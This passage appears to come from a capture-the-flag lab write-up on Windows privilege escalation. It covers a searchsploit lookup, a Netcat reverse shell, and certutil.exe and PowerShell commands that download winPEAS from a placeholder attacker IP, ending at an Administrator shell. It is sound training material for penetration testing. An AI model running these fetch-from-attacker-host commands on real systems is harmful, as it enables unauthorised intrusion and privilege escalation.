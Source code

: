 ```searchsploit 34926 -p```

> Answer: No answer needed

Going back to our Netcat listener we should have a shell and can ```cd``` to **C:\Users\bill\Desktop**. Once there we can utilize **certutil.exe** to download WinPeas from your local machine.

```certutil.exe -urlcache -split -f http://<attacker ip>/winPEAS.exe```

We can also use PowerShell to do the same.

```powershell -c wget "http://<attacker ip>:8000/winPEAS.exe" -outfile "winPEASx86.exe"```

Next we can run winPeas with ```winPeasx86.exe``` and can see the same vulnerability from before when we used Metasploit.

> What powershell -c command could we run to manually find out the service name? *Format is "powershell -c "command here"*

> Answer: powershell -c "Get-Service"

After this all you have to do is follow the steps in Task 3 to get root!

> Once this command runs, you will see you gain a shell as Administrator on our listener!

> Answer: No answer needed
